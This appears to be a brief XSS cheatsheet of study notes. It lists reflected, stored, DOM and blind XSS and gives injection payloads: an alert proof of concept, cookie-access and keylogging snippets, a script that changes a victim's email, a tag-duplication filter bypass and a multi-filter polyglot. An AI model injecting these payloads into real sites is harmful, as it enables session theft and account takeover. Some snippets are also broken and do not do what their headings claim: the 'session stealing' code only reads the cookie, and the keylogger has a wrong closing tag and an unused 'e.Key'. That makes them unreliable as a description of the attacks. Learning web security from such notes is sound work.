 # XSS Cheatsheet
Cross-site scripting is executed in the browser on the client machine.  A simple proof of concept would look like:

## XSS Classifications
| Type | Location |
| ---- | -------- |
| Reflected | URL Paramaters |
| Stored | Database |
| DOM | Unsafe JS variables |
| Blind | Support Tickets / Emails |

Reflected XSS - URL Query parameters
Stored

```js
<script>alert('xss');</script>
```

## Session Stealing
Extract user cookies to be used for a sign in:
```js
<script>document.cookie</script>
```

## Key Logging
Capture user key presses:
```js
<script>
document.onkeypress = function(e) {
    e.Key
}
<script>
```

## Business Logic
You may be able to access critical functions 
```js
<script>
user.updateEmail('malicious@bad.com');
</script>
```

## Bypass Techniques
Some fiters are trivial to bypass while others involve a deeper understanding of the code to exploit.

### String filters
A website can filter based on string matches such as `script`. In some cases we can evade this filter by duplicating the string.
```js
<sscriptcript>
    alert('xss');
</sscriptcript>
```

### Polygots
An attack that can bypass multiple filters in one go.
```js
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('EVIL') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('EVIL')"'
```
